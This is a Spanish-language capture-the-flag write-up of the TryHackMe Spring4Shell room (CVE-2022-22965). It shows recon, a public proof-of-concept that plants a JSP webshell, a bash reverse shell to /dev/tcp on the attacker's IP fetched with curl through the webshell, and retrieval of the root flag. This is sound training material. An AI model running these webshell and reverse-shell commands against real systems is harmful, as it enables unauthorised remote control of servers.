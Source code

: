 ```yaml
---
layout: single
author_profile: true
title: THM Spring4Shell
excerpt: "Vamos a resolver la maquina Spring4SHell de TryHackMe. ¡Let's hack!"
date: 2022-04-13
classes: wide
header:
  teaser: /assets/images/spring4shell/inicio.png
  teaser_home_page: true
categories:
  - TryHackMe
tags:
  - Writeup
  - Spring4shell
---
```


<p style="text-align: center;">
<img src="/assets/images/spring4shell/inicio.png">
</p>

¡Hola!
En esta ocasión vamos a hablar de la maquina **Spring4shell**. 

[TryHackMe](https://tryhackme.com/) lanzó hace unas semanas esta máquina para aprender acerca de una de las vulnerabilidades más sonadas del momento.

El impacto de la vulnerabilidad asciende al nivel de que, [piratas informáticos](https://backtrackacademy.com/articulo) sacaron provecho de este acontecimiento para ejecutar el malware de botnet MIRAI en Singapur, descargando el programa malicioso en la carpeta `/tmp` y ejecutarlo, luego de un cambio de permisos bajo el comando `chmod`.

Vamos a ver un poco de la vulnerabilidad, limitaciones, explotación y remediaciones.

## VULNERABILIDAD

En marzo de 2022 se hace [pública](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965) la vulnerabilidad de **ejecución remota de comandos** en el marco de Java Spring, específicamente en `Spring Cloud Functions` y `Spring Core`, generando un gran impacto en el framework.

El mundo de **Spring Framework** presenta una vulnerabilidad de ejecución remota de comandos, a través de una _webshell_ la cual es posible luego de forzar a escribir un archivo de extensión `.jsp` en el servidor web.

El principal **riesgo** de el éxito en la explotación de esta vulnerabilidad se presenta en el potencial _escalamiento de privilegios_ para lograr un acceso total al servidor víctima y a la infraestructura de la organización afectada por el ataque.

## LIMITACIONES

Las condiciones para poder explotar la vulnerabilidad **Spring4shell** son las siguientes:

* JDK 9+.
* Spring Framework (<5.2 / 5.2.0-19 / 5.3.0-17).
* Apache Tomcat como servidor de Spring, empaquetado como WAR.
* Las dependencias spring-webmvc y/o spring-webflux como componentes del marco de Spring.
* Uso de hacktools.

## EXPLOTACIÓN

Para realizar la máquina, creamos un directorio y a su vez subdirectorios para organizar la información necesaria.

```zsh
❯ mkdir spring4shell
❯ cd !$
cd spring4shell
❯ mkdir nmap exploit
```

Realizamos un **reconocimiento** por medio de ping, identificando por el TTL (Time To Live) que la maquina es _Linux_.

```zsh
❯ ping -c 1 10.10.25.142
PING 10.10.25.142 (10.10.25.142) 56(84) bytes of data.
64 bytes from 10.10.25.142: icmp_seq=1 ttl=63 time=195 ms

--- 10.10.25.142 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 194.521/194.521/194.521/0.000 ms
```

Hacemos un **escaneo de puertos** para detectar cuales de estos están abiertos para identificar vulnerabilidades en los mismos.

```zsh
❯ sudo nmap -p- --open -sS --min-rate 5000 10.10.25.142 -n -Pn -oG inicial
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 09:28 -05
Nmap scan report for 10.10.25.142
Host is up (0.31s latency).
Not shown: 52759 filtered tcp ports (no-response), 12773 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Luego de identificar los puertos **22**, **80** y **8080**, se procede a detectar servicios y versiones activos.

```zsh
❯ sudo nmap -p22,80,8080 -sCV 10.10.25.142 -n -Pn -oG servicios
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 09:35 -05
Nmap scan report for 10.10.25.142
Host is up (0.27s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:92:70:6c:b6:df:1f:0b:45:ed:42:8d:b6:38:cc:67 (RSA)
|   256 18:af:36:34:c9:2e:a4:6f:7a:27:31:e8:ef:6c:84:fb (ECDSA)
|_  256 78:a6:1c:8a:16:5e:a6:29:29:a9:99:d0:66:9c:5e:06 (ED25519)
80/tcp   open  http    nginx 1.20.2
|_http-title: Vulnerable
|_http-server-header: nginx/1.20.2
8080/tcp open  http    nginx 1.20.2
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME               FILENAME
| 1260  03-Apr-2022 02:30  exploit.zip
|_
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.20.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el navegador accedemos a la IP bajo el puerto 8080 y procedemos a descargar el archivo **exploit.zip**.

<p style="text-align: center;">
<img src="/assets/images/spring4shell/exploitzip.png">
</p>

Movemos el archivo a nuestra carpeta y procedemos a descomprimir el archivo con la utilidad `unzip`.

```zsh
❯ mv ~/Descargas/firefox/exploit.zip .
❯ unzip exploit.zip
Archive:  exploit.zip
[exploit.zip] exploit.py password: 
  inflating: exploit.py              
❯ ls
 exploit.py   exploit.zip
```

La información del script descargado se puede obtener ingresando al GitHub de [BobTheShoplifter](https://github.com/BobTheShoplifter/Spring4Shell-POC).

Procedemos a ver el funcionamiento del script.

```python
❯ python3 exploit.py
usage: exploit.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] url
exploit.py: error: the following arguments are required: url
```

Ahora ejecutamos el script con la URL victima (_FILENAME_, _PASSWORD_ y _DIRECTORY_ son opcionales).

```python
❯ python3 exploit.py http://10.10.25.142/
Shell Uploaded Successfully!
Your shell can be found at: http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=whoami
```

Como indica la salida del script, la webshell ha sido cargada en el servidor con éxito, por lo tanto, ya tenemos la **capacidad** de ejecutar comandos de manera remota.

<p style="text-align: center;">
<img src="/assets/images/spring4shell/vulnerable.png">
</p>
<p style="text-align: center;">
<img src="/assets/images/spring4shell/intrusion.png">
</p>

Ahora vamos a subir una **reverseshell** para ganar acceso a la maquina!

Crearemos un archivo `shell.sh`.

```zsh
nano shell.sh

#!/bin/bash
bash -i >& /dev/tcp/10.9.3.40/1234 0>&1
```

Luego de crear el archivo, vamos a cargar este al servidor vulnerable, por medio de un servidor local de python.

```zsh
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ejecutaremos en el navegador la siguiente **URL** para cargar nuestra shell en la carpeta `/tmp` de la víctima.

* http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=curl http://10.9.3.40:8000/shell.sh -o /tmp/shell.sh

<p style="text-align: center;">
<img src="/assets/images/spring4shell/shell.png">
</p>

Nuestra shell se encuentra ahora en el servidor vulnerable!

Vamos a ponernos en escucha con la utilidad netcat, en esta ocasión bajo el puerto **1234**.

```zsh
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

Procedemos a ejecutar el archivo en el servidor víctima.

* http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=bash /tmp/shell.sh

<p style="text-align: center;">
<img src="/assets/images/spring4shell/admin.png">
</p>

Como se puede ver en la imagen anterior, hemos logrado obtener una **shell** en la maquina! 

Ahora vamos a realizar un _tratamiento_ de la TTY, para lograr una mayor fluidez en la consola, para ello vamos a ejecutar los siguientes comandos iniciando en la maquina víctima.

```zsh
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
xterm
export XTERM=xterm
export SHELL=bash
```

Luego de que logramos una terminal fluida, vamos a buscar la **flag** y leerla!

En esta ocasión solo tenemos una **flag**.

Solo mostraré los primeros 10 dígitos de está.

```zsh
root@spring4shell:/# ls /root
flag.txt
root@spring4shell:/# head -c 10 /root/flag.txt ; echo
THM{NjAyNz
```

**¡Ya está!** 

<p style="text-align: center;">
<img src="/assets/images/spring4shell/finish.png">
</p>


Por último, les recomiendo **actualizar** sus frameworks de Spring o generar controles pertinentes para que sus sistemas no sean vulnerables!

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
